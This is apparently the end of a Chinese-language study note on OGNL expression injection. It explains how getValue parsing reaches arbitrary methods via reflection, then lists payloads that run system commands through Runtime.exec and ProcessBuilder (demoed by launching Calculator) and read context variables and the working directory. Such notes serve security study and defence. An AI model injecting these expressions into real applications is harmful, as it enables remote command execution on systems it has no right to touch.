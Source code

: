 <div align=center><img src="./images/12.png"></div>

简单地说, `OGNL`表达式的`getValue`解析过程就是先将整个`OGNL`表达式按照语法树分为几个子节点树, 然后循环遍历解析各个子节点树上的`OGNL`表达式, 其中通过`Method.invoke`即反射的方式实现任意类方法调用, 将各个节点解析获取到的类方法通过`ASTChain`链的方式串连起来实现完整的表达式解析、得到完整的类方法调用.

# Payload
```java
// 获取 Context 里面的变量.
 #user
 #user.name

// 使用 Runtime 执行系统命令.
@java.lang.Runtime@getRuntime().exec("open -a Calculator")


// 使用 Processbuilder 执行系统命令.
(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a", "Calculator"})).start()

// 获取当前路径.
@java.lang.System@getProperty("user.dir")
```

# 参考
 - [OGNL表达式注入漏洞总结](https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)